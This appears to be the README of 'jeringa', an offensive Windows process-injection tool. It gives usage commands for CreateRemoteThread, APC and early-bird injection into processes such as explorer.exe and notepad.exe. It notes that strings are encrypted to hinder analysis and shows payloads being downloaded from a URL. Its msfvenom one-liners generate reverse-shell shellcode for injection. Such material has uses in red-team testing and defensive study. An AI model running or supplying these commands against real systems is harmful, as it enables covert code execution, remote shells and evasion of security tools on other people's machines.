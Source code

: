 # jeringa

Tool for easy process injection. It implements several types of process injection and uses dynamic function loading using delegates and AES to encrypt all the strings, so the function names are not easiliy retrievable.
- Process listing: By process name or process owner
- Payload: As input argument or using a url to download it
- Process injection via:
    - inject-crt: OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread
    - inject-apc: OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC 
    - earlybird:  CreateProcess + VirtualAllocEx + WriteProcessMemory + ResumeThread


### Process information

Option "list" to enumerate all processes or filter by name or owner:

```
jeringa.exe list [ all | PROCESS_NAME | PROCESS_OWNER]
```

Example: List all processes:

```
jeringa.exe list all
```

Example: List processes with a specific name ("explorer") or process owner ("DESKTOP-MA54241\ricardo"):

```
jeringa.exe list explorer
jeringa.exe list "DESKTOP-MA54241\ricardo"
```

###  Injection type "inject-crt" (OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread)

You can use the process name and owner, or the PID. The payload can be in HEX format or a url to download it, if not the program asks for a value/url.

```
jeringa.exe inject-crt [(PROCESS_NAME PROCESS_OWNER) | PROCESS_PID] [ HEX_PAYLOAD | URL]
```

Example: Injection using process name, process owner and payload in HEX format:

```
jeringa.exe inject-crt explorer "DESKTOP-MA54241\ricardo" fc4883e4f0e8...
```

Example: Injection using PID ("1234") and a url to download the payload:

```
jeringa.exe inject-crt 1234 http://127.0.0.1/payload.bin
```

###  Injection type "inject-apc" (OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC)

You can use the process name and owner, or the PID. The payload can be in HEX format or a url to download it, if not the program asks for a value/url. 

For this one you must wait until the thread enters in alertable state, you can try it using Notepad and the option "Save as".

```
jeringa.exe inject-apc [(PROCESS_NAME PROCESS_OWNER) | PROCESS_PID] [ HEX_PAYLOAD | URL]
```

Example: Injection using process name, process owner and payload in HEX format:

```
jeringa.exe inject-apc explorer "DESKTOP-MA54241\ricardo" fc4883e4f0e8...
```

Example: Injection using PID ("1234") and a url to download the payload:

```
jeringa.exe inject-apc 1234 http://127.0.0.1/payload.bin
```

###  Injection type "earlybird" (CreateProcess + VirtualAllocEx + WriteProcessMemory + ResumeThread)

You only set the program path. The payload can be in HEX format or a url to download it, if not the program asks for a value/url.

Example: Injection using program path and payload in HEX format:

```
jeringa.exe earlybird "c:\windows\system32\notepad.exe" fc4883e4f0e8...
```

Example: Injection using program path and a url to download the payload:

```
jeringa.exe earlybird "c:\windows\system32\calc.exe" http://127.0.0.1/payload.bin
```

### Payload generation

You can use your custom payloads or use Msfvenom. In case you use the HEX payload option you must delete all "\x" or similar characters. If you use the url option the payload must be in raw format.

Example: Create payload in HEX format using Msfvenom with:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c EXITFUNC=thread | grep '\x' | tr -d '"\n\\x;'
```

Example: Create payload in raw format for url option using Msfvenom with:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 EXITFUNC=thread -f bin > payload.bin
```
